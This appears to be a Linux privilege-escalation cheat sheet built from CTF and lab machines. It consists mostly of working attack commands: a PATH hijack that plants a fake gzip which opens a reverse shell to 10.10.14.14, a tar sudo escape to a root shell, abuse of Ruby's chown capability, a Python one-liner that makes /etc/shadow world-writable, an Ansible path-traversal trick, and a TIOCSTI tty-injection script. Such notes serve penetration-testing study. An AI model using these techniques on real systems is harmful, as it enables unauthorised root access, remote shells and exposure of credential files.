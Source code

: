 
#### Finding SUID 
```
find / -type f -perm /4000 2>/dev/null
```
or 
```
find / -type f -perm -u=s 2>/dev/null
```


#### Finding GUID 
```
find / -type f -perm /2000 2>/dev/null
```
or 
```
find / -type f -perm -g=s 2>/dev/null
```

#### Finding Capabilities
```
getcap -r / 2>/dev/null
```

#### Find running TCP connections

```bash
netstat -tunlpn
```

res:-
```bash
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -                   
udp6       0      0 ::1:161                 :::*                                -                   

```
#### Path Injection With Sudo nopasswd

```
m4lwhere@previse:/tmp$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

```
m4lwhere@previse:/tmp$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

```
m4lwhere@previse:/tmp$ cat gzip
#!/bin/bash

bash -c "sh -i >& /dev/tcp/10.10.14.14/9002 0>&1"
```

```
m4lwhere@previse:/tmp$ chmod +x gzip
```

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
```

```
m4lwhere@previse:/tmp$ sudo -u root /opt/scripts/access_backup.sh
```


####  Privesc with sudo /bin/tar

ref:- https://tryhackme.com/room/cowboyhacker

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

gtfobin:- https://gtfobins.github.io/gtfobins/tar/#sudo

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
```


#### with capabilities ruby 

ref:- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown

```
/usr/local/bin/ruby = cap_chown+ep
```
![rubyCapChown.png](rubyCapChown.png)

pass id of user which is 1002 and location and get access to that file
```ruby
ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root")'
```

```bash
george@empline:/root$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root/root.txt")'
george@empline:/root$ cat root.txt 
74fea7cd0556e9c6f22e6f54bc68f5d5
george@empline:/root$ 
```

python:-
```python
python -c 'import os;os.chmod("/etc/shadow",0666)
```

#### Privesc with sudo Ansible 

```bash
sudo -l
```

![ansiblePrivesc01.png](ansiblePrivesc01.png)

```bash
nano /tmp/a.yml
```

```bash
chmod 777 /tmp/a.yml
```

paste below yml

```yml
---
- hosts: localhost
  tasks:
    - name: Run id                                    
      command: id
      register: id_output  # Register the output of the command

    - name: Display the output of 'id'
      debug:
        var: id_output.stdout  # Print the captured output

```


```bash
sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/a.yml
```

![ansiblePrivesc02.png](./ansiblePrivesc02.png)

ref:-
- https://tryhackme.com/r/room/backtrack
- https://youtu.be/FPD3BFv_f_Y?si=Jwof3PkTrzcBqBQY&t=2343

#### Privesc with ttypushback

```bash
./pspy64
```

![ttypushback01.png](./ttypushback01.png)

```bash
nano /dev/shm/a.py
```

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

or 

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'ls -la /root >/dev/shm/a.txt;chmod 777 a.txt' + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

![ttypushback02.png](./ttypushback02.png)
wait for 1-2 min for cron

```bash
ls -la
```
```bash
cat a.txt
```


![ttypushback03.png](./ttypushback03.png)

ref:-
- https://tryhackme.com/r/room/backtrack
- https://www.errno.fr/TTYPushback.html
- https://youtu.be/FPD3BFv_f_Y?si=j0MjXQytaRM2WRQe&t=5466